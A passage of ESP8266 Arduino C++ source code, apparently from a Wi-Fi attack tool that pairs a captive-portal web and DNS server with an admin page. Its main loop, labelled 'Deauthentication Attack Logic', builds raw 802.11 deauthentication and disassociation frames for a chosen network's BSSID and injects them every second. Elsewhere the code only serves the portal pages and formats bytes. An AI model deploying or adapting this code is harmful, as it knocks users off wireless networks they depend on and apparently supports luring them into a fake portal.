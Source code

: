       html += "</form>";
    }

    html += _baseHTMLEnd;
    webServer.send(200, "text/html", html);
  }
}

// Handler for Admin Page (Same as handleIndex but can be customized further if needed)
void handleAdmin() {
  // For simplicity, reusing handleIndex. Modify if separate admin functionalities are required.
  handleIndex();
}

// Utility Function to Convert BSSID Bytes to String
String bytesToStr(const uint8_t* b, uint32_t size) {
  String str;
  const char ZERO = '0';
  const char DOUBLEPOINT = ':';
  for (uint32_t i = 0; i < size; i++) {
    if (b[i] < 0x10) str += ZERO;
    str += String(b[i], HEX);
    if (i < size - 1) str += DOUBLEPOINT;
  }
  return str;
}

unsigned long now = 0;
unsigned long wifinow =  0;
unsigned long deauth_now = 0;

uint8_t broadcast[6] = { 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF };
uint8_t wifi_channel = 1;

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();

  // Deauthentication Attack Logic
  if (deauthing_active && millis() - deauth_now >= 1000) {
    wifi_set_channel(_selectedNetwork.ch);

    uint8_t deauthPacket[26] = {0xC0, 0x00, 0x00, 0x00, 
                                 0xFF, 0xFF, 0xFF, 0xFF, 
                                 0xFF, 0xFF, 0xFF, 0xFF, 
                                 0xFF, 0xFF, 0xFF, 0xFF, 
                                 0xFF, 0xFF, 0xFF, 0xFF, 
                                 0xFF, 0x00, 0x00, 0x01, 
                                 0x00};

    // Set BSSID in the deauth packet
    memcpy(&deauthPacket[10], _selectedNetwork.bssid, 6);
    memcpy(&deauthPacket[16], _selectedNetwork.bssid, 6);
    deauthPacket[24] = 1;

    Serial.println(bytesToStr(deauthPacket, 26));
    deauthPacket[0] = 0xC0;
    Serial.println(wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0));
    Serial.println(bytesToStr(deauthPacket, 26));
    deauthPacket[0] = 0xA0;
    Serial.println(wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0));
